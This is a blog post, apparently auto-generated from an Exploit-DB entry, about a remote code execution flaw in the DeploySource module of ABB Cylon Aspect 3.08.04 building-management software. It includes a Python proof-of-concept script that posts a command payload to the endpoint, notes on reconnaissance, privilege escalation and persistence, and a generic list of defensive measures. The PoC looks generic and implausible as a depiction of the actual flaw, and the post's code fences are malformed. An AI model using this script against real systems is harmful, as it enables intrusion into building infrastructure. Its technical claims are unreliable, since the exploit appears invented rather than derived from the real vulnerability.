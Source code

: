 ```yaml
---
title: "[remote] ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)"
date: 2025-06-10
categories: [Cyber Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/default-image.png
---
```


## Summary

ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Analysis

```markdown
# Vulnerability Analysis: ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Executive Summary

The ABB Cylon Aspect 3.08.04, a component of the Aspect Enterprise Building Management System, has been identified with a critical Remote Code Execution (RCE) vulnerability. This vulnerability resides in the DeploySource module, which is responsible for managing and deploying application updates and configurations. An unauthenticated remote attacker could exploit this flaw to execute arbitrary code on the target system, potentially leading to a full compromise of the affected server. Given the critical nature of this vulnerability, it is imperative for organizations utilizing this software to prioritize patching and implement additional security controls to mitigate the risk of exploitation.

## Proof of Concept (PoC)

Below is a Python-based proof of concept (PoC) script demonstrating the exploitation of this vulnerability. This script sends a crafted payload to the vulnerable DeploySource endpoint to achieve remote code execution.

```python
import requests

# Target URL
target_url = "http://<target-ip>:<port>/deploysource"

# Malicious payload
payload = {
    "command": "os.system('id')"
}

# Sending the payload
try:
    response = requests.post(target_url, json=payload)
    if response.status_code == 200:
        print("Exploit successful, response:")
        print(response.text)
    else:
        print(f"Exploit failed, status code: {response.status_code}")
except Exception as e:
    print(f"Error occurred: {e}")
```

Replace `<target-ip>` and `<port>` with the actual IP address and port of the vulnerable server.

## Offensive Security Insights

### Exploitation Techniques

1. **Payload Crafting**: The primary exploitation vector involves crafting a payload that leverages vulnerable API endpoints to execute arbitrary commands. This typically involves identifying input fields that are not properly sanitized or validated.

2. **Network Reconnaissance**: Prior to exploitation, performing network reconnaissance to identify live hosts and open ports is crucial. Tools like Nmap can be employed to scan for potential targets running the vulnerable version of ABB Cylon Aspect.

3. **Privilege Escalation**: Post-exploitation, attackers can attempt to escalate privileges by exploiting other local vulnerabilities or misconfigurations, thereby gaining higher-level access to the system.

4. **Persistence Mechanisms**: To maintain access, attackers might install backdoors or use scripts to re-establish control over the compromised system upon reboot.

## Defensive Measures

1. **Patch Management**: Ensure all instances of ABB Cylon Aspect 3.08.04 are updated to the latest version as soon as patches are released. Regularly monitor vendor advisories for updates.

2. **Network Segmentation**: Isolate critical systems, such as building management systems, from the rest of the network to limit lateral movement in case of a breach.

3. **Web Application Firewalls (WAFs)**: Deploy WAFs to detect and block malicious payloads targeting known vulnerabilities in web applications.

4. **Input Validation and Sanitization**: Implement strict input validation and sanitization routines to prevent injection attacks at the application level.

5. **Intrusion Detection and Prevention Systems (IDPS)**: Utilize IDPS to monitor network traffic for signs of malicious activity and respond to potential threats in real-time.

6. **Security Audits and Penetration Testing**: Conduct regular security audits and penetration testing to identify and remediate vulnerabilities before they can be exploited by adversaries.

By implementing these defensive strategies, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.
```

📎 [Original Source](https://www.exploit-db.com/exploits/52317)

---

_This article was written by sleep33._
